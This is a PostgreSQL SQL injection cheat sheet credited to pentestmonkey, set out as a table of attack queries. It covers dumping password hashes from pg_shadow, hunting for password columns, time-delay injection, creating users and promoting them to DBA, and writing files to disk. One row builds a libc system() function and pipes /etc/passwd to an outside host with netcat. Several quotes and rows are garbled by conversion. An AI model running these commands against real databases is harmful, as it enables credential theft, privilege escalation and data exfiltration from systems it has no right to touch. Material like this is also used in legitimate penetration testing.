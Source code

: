 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT version()|
|Comments|SELECT 1; --comment; SELECT /\*comment\*/1; |
|Current User|SELECT user; SELECT current_user; SELECT session_user; SELECT usename FROM pg_user; SELECT getpgusername();|
|List Users|SELECT usename FROM pg_user|
|List Password Hashes|SELECT usename, passwd FROM pg_shadow — priv|
|Password Cracker|MDCrack can crack PostgreSQL’s MD5-based passwords.|
|List Privileges|SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user|
|Check if you are superuser| SELECT current_setting('is_superuser'); |
|List DBA Accounts|SELECT usename FROM pg_user WHERE usesuper IS TRUE|
|Current Database|SELECT current_database()|
|List Databases|SELECT datname FROM pg_database|
|List Columns|SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)|
|List Tables|SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)|
|Find Tables From Column Name|If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;|
|Select Nth Row|SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from; SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;|
|Select Nth Char|SELECT substr(‘abcd’, 3, 1); — returns c|
|Bitwise AND|SELECT 6 & 2; — returns 2; SELECT 6 & 1; –returns 0|
|ASCII Value -> Char|SELECT chr(65);|
|Char -> ASCII Value|SELECT ascii(‘A’);|
|Casting|SELECT CAST(1 as varchar); SELECT CAST(’1′ as int);|
|String Concatenation|SELECT ‘A’ || ‘B’; — returnsAB|
|If Statement|IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.|
|Case Statement|SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A|
|Avoiding Quotes|SELECT CHR(65)||CHR(66); — returns AB|
|Time Delay|SELECT pg_sleep(10); — postgres 8.2+ only; CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .|
|Make DNS Requests|Generally not possible in postgres.  However if contrib/dblinkis installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights): SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT); Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.|
|Command Execution|CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user|
|Hostname, IP Address|SELECT inet_server_addr(); — returns db server IP address (or null if using local connection); SELECT inet_server_port(); — returns db server IP address (or null if using local connection)|
|Create Users|CREATE USER test1 PASSWORD ‘pass1′; — priv; CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time|
|Drop Users|DROP USER test1; — priv|
|Make User DBA|ALTER USER test1 CREATEUSER CREATEDB; — priv; Location of DB files|SELECT current_setting(‘data_directory’); — priv; SELECT current_setting(‘hba_file’); — priv|
|Default/System Databases|template0; template1
|Dollar Strings| Instead of quotes you can alternatively use $$ (duoble-dollar) for quoting stings, of $ (single-dollar) with tag: SELECT $$TEST$$; SELECT $TAG$TEST$TAG$; |
|Write arbitary data to disc | CREATE TEMP TABLE TEST(data text);INSERT INTO TEST(data) VALUES ($$test$$);COPY TEST(data) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$ | 
